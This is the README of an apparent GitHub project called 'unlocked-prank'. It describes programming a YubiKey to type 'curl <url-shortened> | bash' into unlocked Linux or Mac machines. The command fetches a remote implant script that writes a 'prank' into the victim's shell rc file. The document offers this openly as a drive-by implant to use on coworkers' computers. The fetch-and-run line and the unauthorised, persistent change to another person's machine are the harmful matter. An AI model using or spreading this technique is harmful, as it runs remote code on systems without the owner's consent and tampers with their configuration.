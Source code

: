 # unlocked-prank
A harmless prank for those poor buggers who leave their Linux or Mac machines unlocked.

** not yet finished, just here as a work in progress **

## Use

I wrote this as a quick drive-by implant.  

Those around me often leave their systems unlocked.  Messing around manually is time consuming and thus risky.

As I have a spare Yubikey I decided to utilise a slot with a static string.  This has a single stored command of:

` curl <url-shortened> | bash`

The URL shortener is used as the Yubikey has a limit of 64 characters in it's static password mode.  The shortened URL should point to

`https://raw.githubusercontent.com/auraltension/unlocked-prank/master/implant.sh`

Open a shell, plug in, press the button, remove, walk away.  The script will determine whether the system is Mac or
linux, and then the shell used by the user and implant a fun prank into their shell rc.

For your piece of mind I recommend checking my implant.sh, and probably forking and using your own copy as you probably don't want to trust my script being executed on other peoples machines.
